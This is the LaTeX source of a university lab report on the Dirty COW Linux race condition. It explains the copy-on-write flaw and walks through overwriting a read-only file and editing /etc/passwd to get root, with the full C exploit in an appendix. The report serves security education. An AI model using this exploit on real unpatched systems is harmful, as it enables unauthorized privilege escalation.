%\documentclass[12pt,notitlepage]{article}
\documentclass[a4paper,12pt]{article}
\usepackage[utf8]{inputenc}
\usepackage{graphicx}
\usepackage{verbatim}
\usepackage{amsthm}
\usepackage{amssymb}
\usepackage{pdfpages}
\usepackage{amsmath}
\usepackage{tikzsymbols}
\usepackage{mwe}
\usetikzlibrary{decorations.pathreplacing}
\usepackage{mathtools}
\usepackage{enumitem}
\DeclarePairedDelimiter\ceil{\lceil}{\rceil}
\DeclarePairedDelimiter\floor{\lfloor}{\rfloor}

\usepackage{hyperref}
%\usepackage[T1]{fontenc}
\usepackage{url}
\usepackage{lipsum}
\usepackage{array}
\usepackage{multirow}
\usepackage{float}
\usepackage{lscape}
\usepackage{colortbl}
\newcolumntype{P}[1]{>{\centering\arraybackslash}p{#1}}
\usepackage[nottoc,numbib]{tocbibind}
\usepackage{fancyhdr}
\usepackage{hhline}
\usepackage[printonlyused]{acronym}

%\usepackage{txfonts}
\usepackage{lipsum,etoolbox}% http://ctan.org/pkg/{lipsum,etoolbox}
\usepackage{caption}
\usepackage{subcaption}

\usepackage{algorithm}
\usepackage[noend]{algpseudocode}

\makeatletter
\def\BState{\State\hskip-\ALG@thistlm}
\makeatother

\usepackage{minted}

\definecolor{black}{RGB}{0,0,0}

\usepackage{fancyvrb}

\usepackage{geometry}
\geometry{
	a4paper,
	total={170mm,257mm},
	right=3cm,
	left=3.5cm,
	top=3cm,
	bottom=3cm
}

\makeatletter
\DeclareRobustCommand{\rvdots}{%
	\vbox{
		\baselineskip4\p@\lineskiplimit\z@
		\kern-\p@
		\hbox{.}\hbox{.}\hbox{.}
}}
\makeatother
\usepackage{titlesec}
\usepackage{hyperref}
\titleclass{\subsubsubsection}{straight}[\subsection]

\newcounter{subsubsubsection}[subsubsection]
\renewcommand\thesubsubsubsection{\thesubsubsection.\arabic{subsubsubsection}}
\renewcommand\theparagraph{\thesubsubsubsection.\arabic{paragraph}} % optional; useful if paragraphs are to be numbered

\titleformat{\subsubsubsection}
{\normalfont\normalsize\bfseries}{\thesubsubsubsection}{1em}{}
\titlespacing*{\subsubsubsection}
{0pt}{3.25ex plus 1ex minus .2ex}{1.5ex plus .2ex}

\makeatletter
\renewcommand\paragraph{\@startsection{paragraph}{5}{\z@}%
	{3.25ex \@plus1ex \@minus.2ex}%
	{-1em}%
	{\normalfont\normalsize\bfseries}}
\renewcommand\subparagraph{\@startsection{subparagraph}{6}{\parindent}%
	{3.25ex \@plus1ex \@minus .2ex}%
	{-1em}%
	{\normalfont\normalsize\bfseries}}
\def\toclevel@subsubsubsection{4}
\def\toclevel@paragraph{5}
\def\toclevel@paragraph{6}
\def\l@subsubsubsection{\@dottedtocline{4}{7em}{4em}}
\def\l@paragraph{\@dottedtocline{5}{10em}{5em}}
\def\l@subparagraph{\@dottedtocline{6}{14em}{6em}}
\makeatother
\newcommand*\circled[1]{\tikz[baseline=(char.base)]{
		\node[shape=circle,draw,inner sep=2pt] (char) {#1};}}


\setcounter{secnumdepth}{4}
\setcounter{tocdepth}{4}
\newcommand{\und}{\underline{\hspace{.10in}}}
\begin{document}
	\begin{titlepage}
		\begin{center}
			\vspace*{9em}
			\Huge 
			MH4920\\ Supervised Independent Study I\\
			\vspace*{4em}
			\LARGE
			\textbf{Dirty COW (Copy-On-Write) Attack}\\		
			\vspace{4em}
			\textbf{Brandon Goh Wen Heng}\\
			\vspace*{4em}
			Academic Year 2017/18
			\vfill
		\end{center}
	\end{titlepage}
	
	\pagenumbering{roman}
	\tableofcontents
	\newpage
	\pagenumbering{arabic}
	\section{Introduction}
The Dirty COW vulnerability is a race condition vulnerability that is able to modify privileged files even without the use of \texttt{Set-UID} programs and even without read access. The exploit relies on the copy-on-write function within the Linux kernel and memory mapping (mmap). This vulnerability has existed in Linux since September 2007 and was discovered and exploited in October 2016.
\section{Overview}
This lab will provide a hands-on experience on exploiting the race condition and understanding the security issues pertaining to general race conditions that have led to the exploitation.
\\\\
The Dirty COW operation firstly involves the loading of the file into the memory in read-only mode. This prevents the memory or the file from being written and modified from an unprivileged user.
	\begin{figure}[!h]
	\centering

\begin{tikzpicture}
\draw (-3,1.5) rectangle node {Data} (-1,-0.5);
\draw (1,3) rectangle (3,-2);
\draw [decorate,decoration={brace,amplitude=6pt},xshift=-4pt,yshift=0pt]
(-3.2,-0.5) -- (-3.2,1.5) node [black,midway,xshift=-1cm,text width=2.5cm] {\footnotesize Physical file};
\draw (-1,1.5) -- (1,2);
\draw(-1,-0.5) -- (1,-1);
\draw[fill=yellow!20] (1,-1) rectangle node{Data}(3,2);
\draw [decorate,decoration={brace,amplitude=6pt},xshift=4pt,yshift=0pt]
(3.2,3) -- (3.2,-2) node [black,midway,xshift=1.6cm,text width=2.5cm] {\footnotesize Memory};
\end{tikzpicture}
		\caption{COW Operation}
\end{figure}\\
Following that, the instruction to create a local copy of the program for editing by the user is requested. This allows for the user to create a local file that is writable while ensuring that the original file is not writable.
	\begin{figure}[!h]
	\centering
	
\begin{tikzpicture}
	\draw (-8,1)node[xshift=-1cm,yshift=1cm]{Memory} rectangle (4.2,3);
	\draw[fill=yellow!20] (-7,1) rectangle node[text width=3cm] {Original Data (Non-writable)} (-3.5,3);
	\draw[fill=blue!20] (-1,1) rectangle node[text width=3cm] {Copied Data (Writable)} (2.5,3);
	\draw [->,line width=0.4mm] (-5.25,3) to [out=45,in=135] (0.75,3);
	\end{tikzpicture}
	\caption{Copying Data For Writing}
\end{figure}
\\Due to repeated executions of these two threads, there is a race vulnerability where the readable area can be modified during the rapid switching in mapping. When the writable data is no longer needed, the writable data is discarded and the readable data is flushed back to the file on disk. As the readable data has been modified, the file on disk will also be modified because the write operation is performed in a privileged process. This method can be used to modify files and gain root privileges where files may not even be readable to the user.
	\section{Vulnerability Exploit}
	\subsection{Lab Preparation}\vspace{1em}
	\begin{enumerate}
		\item \textbf{Snapshot}\begin{par}
		As this lab will deal with modification of system files affecting user login and credentials, a snapshot is created in the event that a mishap occurs. This will allow the state of the VM to be reverted to the stage before the lab and reducing the amount of work required to re-prepare the VM.\end{par}
	\end{enumerate}
\newpage
\subsection{Modification of Read-Only File}\label{task1}
This subsection will look into using the Dirty COW vulnerability to writing to a read-only file. We need to create a dummy file in the root directory with read-only permissions for normal users as we do not want to perform the operation on a system file and corrupt the contents. To do so, we use the following commands.
\begin{verbatim}
$ su
# nano /zzz
# chmod 644 /zzz
# exit
\end{verbatim}
We can try to write to the file but will instead be thrown an error, as the file has been set to read-only for normal users.
\begin{figure}[H]
	\centering
	
\includegraphics[width=0.9\linewidth]{DirtyCOWRO}
	\caption{Read-Only File}
	\label{fig:dirtycowro}
\end{figure}
\noindent The memory mapping thread is set up. This program has three threads. The main thread maps the file to memory and finds the pattern which we would like to overwrite. The main thread then creates two other threads, the \texttt{write} and the \texttt{madvise} thread to exploit the Dirty COW race condition race condition vulnerability. The \texttt{write} thread searches for the string as defined in the code of overwriting. As the execution is based on COW, the thread will able to modify the contents in the copy of the mapped memory and will not change any data in the underlying file. The \texttt{madvise} thread discards the private copy of the mapped memory so the page table can be pointed back to the original memory. The code for the program has been attached to the \hyperref[Appsec:2]{Appendix}. \\\\The source code is compiled with the \texttt{-lpthread} flag and run. The process is allowed to run a few seconds before being forcefully terminated (Using the shortcut 
\begin{tikzpicture} \draw[line width=1pt,yshift=-0.6mm] (-2.2,1)rectangle  node{Ctrl}(-1.2,0.5); \end{tikzpicture} $+$ 
\begin{tikzpicture} \draw[line width=1pt,yshift=-2mm] (-2.2,1)rectangle  node{C}(-1.6,0.5); \end{tikzpicture}. Printing the contents of the file shows that the file has successfully been overwritten.
\begin{figure}[H]
	\centering
	
\includegraphics[width=0.9\linewidth]{ROEdit}
	\caption{Read-Only File Edited}
	\label{fig:roedit}
\end{figure}
\subsection{Editing of \texttt{/etc/passwd} file}
In this subsection, we will look at exploiting the dirty COW attack to raise the privileges of a normal user to a root user without requiring the need for superuser access. A new user \textit{burneruser} is created using the command \texttt{sudo adduser burneruser}. If the contents of \texttt{/etc/passwd} is printed, we see that the newly created user does not have uid and gid 0.
\begin{figure}[H]
	\centering
	
\includegraphics[width=0.9\linewidth]{adduser}
	\caption{Non-root User Created}
	\label{fig:adduser}
\end{figure}
\noindent Before any attempt at modifying this file, a snapshot is created first in case of any event that the file becomes corrupted and the VM becomes unstable and bootable, which would allow us to restore the VM to the state prior to commencement of the attack.\\\\To perform the attack successfully, the following edits were made to the file before being recompiled:
\begin{table}[h]
	\centering	
	\bgroup
	\def\arraystretch{1.3}
	\begin{tabular}{l|l|l}
		& Before                                                                                 & After                                                                                     \\ \hline
		\circled{1} & \begin{tabular}[c]{@{}l@{}}int f = \\ open(``/zzz", O\_RDONLY);\end{tabular}            & \begin{tabular}[c]{@{}l@{}}int f = \\ open(``/etc/passwd", O\_RDONLY);\end{tabular}        \\ \hline
		\circled{2} & \begin{tabular}[c]{@{}l@{}}char *position = \\ strstr(map, ``2222222222");\end{tabular} & \begin{tabular}[c]{@{}l@{}}char *position = \\ strstr(map, ``r:x:1002:1003");\end{tabular} \\ \hline
		\circled{3} & char *content=``5555555555";                                                            & char *content=``r:x:0000:0000";                                                           
	\end{tabular}
\egroup
\label{tab:Ccode}
\caption{Changes to \texttt{C} code}
\end{table}\\Also note that for \circled{2} and \circled{3} of the table above, it is sufficient to use ``r:x:$\cdots$'' as it is the only user with that unique string within the entire file. As a result, only the above-mentioned string will be modified and nothing else.\\
\\The attack is run using the steps used in section \ref{task1}, task 1. The \texttt{/etc/passwd} file is printed after the attack has stopped, for us to check whether the file has been succesfully modified using the current user privileges. Figure 6 displays the result of executing the program.
\begin{figure}[H]
	\centering
	
\includegraphics[width=0.9\linewidth]{editpass}
	\caption{Successful Modification}
	\label{fig:editpass}
\end{figure}
\noindent The figure has shown that the edit has been successful. However, it can only be validated if we are able to login to the user account and obtain a root shell. To do so, the command \texttt{su hackeduser} is used to login to the specified user account.
\begin{figure}[H]
	\centering
	
\includegraphics[width=0.9\linewidth]{COWpass}
	\caption{Successful Login with Root Access}
	\label{fig:cowpass}
\end{figure}
\noindent With the successful login and the ``\#'' sign visible as shown in Figure 7, the attack is successful and has shown that a dirty COW attack program is able to modify and obtain root privileges without any need for root privileges when executing any command.
\newpage
\section{Appendix}
\subsection{Main Thread: \texttt{cow\_attack.c}}
\label{Appsec:2}
\begin{minted}{C}
#include <sys/mman.h>
#include <fcntl.h>
#include <pthread.h>
#include <sys/stat.h>
#include <string.h>

void *map;

int main(int argc, char *argv[])
{
    pthread_t pth1, pth2;
    struct stat st;
    int file_size;
    
    //Open file in Read-Only mode
    int f=open("/zzz", O_RDONLY);
    
    //Map file to COW memory using MAP_PRIVATE
    fstat(f, &st);
    file_size = st.st_size;
    map=mmap(NULL, file_size, PROT_READ, MAP_PRIVATE, f, 0);
    
    //Find position of target area
    char *position = strstr(map, "2222222222");
    
    //Create two threads for attack
    pthread_create(&pth1, NULL, madviseThread, (void *)file_size);
    pthread_create(&pth2, NULL, writeThread, position);
    
    //Wait for threads to finish
    pthread_join(pth1, NULL);
    pthread_join(pth2, NULL);
    
    return 0;
}
\end{minted}
\newpage
\subsection{\texttt{write} thread: \texttt{cow\_attack.c}}
\begin{minted}{C}
void *writeThread(void *arg)
{
    //Content to overwrite
    char *content="5555555555";
    off_t offset = (off_t) arg;
    
    int f=open("/proc/self/mem", O_RDWR);
    while(1) {
        //Move file pointer to corresponding position.
        lseek(f, offset, SEEK_SET);
        //Write to memory.
        write(f, content, strlen(content));
    }
}
\end{minted}
\subsection{\texttt{madvise} thread: \texttt{cow\_attack.c}}
\begin{minted}{C}
void *madviseThread(void *arg)
{
    int file_size = (int) arg;
    while(1) {
        madvise(map, file_size, MADV_DONTNEED);
    }
}
\end{minted}
	\end{document}